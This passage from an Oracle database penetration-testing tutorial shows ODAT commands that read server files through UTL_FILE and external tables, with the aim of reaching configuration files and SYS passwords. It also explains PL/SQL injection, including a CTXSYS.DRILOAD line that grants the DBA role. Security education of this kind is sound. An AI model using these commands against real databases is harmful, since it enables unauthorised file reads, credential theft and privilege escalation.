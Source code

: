 If you need more functionality with the ability to write, I recommend to google a script called raptor_oraexec.sql. And according to tradition, here’s an option for using ODAT utility, which, as always, is the shortest:
1
	./odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/test" token.txt token.txt

UTL_FILE package is also very interesting because if you’re lucky, you can reach the logs, configuration files and obtain passwords from privileged accounts, such as SYS.
The second method that I would like to mention is to use again the External Tables. Remember that, when using External Tables, the database can access in read mode the data from external tables. For a hacker, this means yet another opportunity to download files from the server, but this method requires CREATE ANY DIRECTORY privilege. I suggest immediately using ODAT, as it is stable and fast:
1
	./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --getFile "C:/test" "my4.txt" "my"

Elevating Privileges
You can use various methods to elevate privileges, ranging from classic buffer overflows and DLL patching to specialized attacks against databases, such as PL/SQL injections. The topic is very extensive and, in this article, I will not dwell on it, as this is discussed in large research papers, such as those found in the blogs of Lichfield and Finnigan. I will just demonstrate some of them, so that you have a general idea. During the testing, I recommend simply paying attention to current privileges and, based on this, search for desired loopholes in the Internet. Unlike MS SQL, where an attacker can inject xp_cmdshell almost immediately after SELECT by simply closing it with a quotation mark, Oracle DB flatly rejects such tricks. For this reason, we cannot every time resort to classical SQL injections although, in this case, too, it is possible to find a way out. We will consider PL/SQL injections, which are modifying the process of executing a procedure (function, trigger, and other objects) by embedding random commands into available input parameters. (с) Sh2kerr In order to embed the payload, find a function where the input parameters are not filtered. Remember that Oracle SQL does not allow multi-statement (multiple) queries, therefore, most likely, you will need to use some “special” procedures that have this feature. The main idea behind the attack is as follows: By default, unless specified otherwise, the procedure is executed on behalf of the owner and not on behalf of the user who started it. In other words, if a procedure owned by SYS account is available for execution and you can embed your code into it, your payload will also be executed in the context of SYS account. As I already mentioned, this is not what happens always, as there are procedures with ‘authid current_user’ parameter, which means that this procedure will be executed with privileges of the current user. However, usually in each version, you can find some functions that are vulnerable to PL/ SQL injection. A general view of this process is shown right there:

![image](https://github.com/user-attachments/assets/d416651d-cf6c-4c6c-8f0f-7334ae8918cf)

 
In short, instead of expected legitimate argument, we pass some malicious code that becomes a part of procedure. A good example is provided by CTXSYS.DRILOAD function. It is executed on behalf of CTXSYS and does not filter the input parameter, which allows you to easily rise up to DBA:
1
	exec ctxsys.driload.validate_stmt('grant dba to scott');

However, by now, this is probably history, since the vulnerability was found in 2004, and it affects only the old versions 8–9. Usually, the process of escalating the privileges is divided into two parts: writing the procedure that increases the rights and performing the injection itself. A typical procedure is as follows:
1
2
3
4
5
6
7
8
	CREATE OR REPLACE FUNCTION F1
RETURN NUMBER AUTHID CURRENT_USER
IS
PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN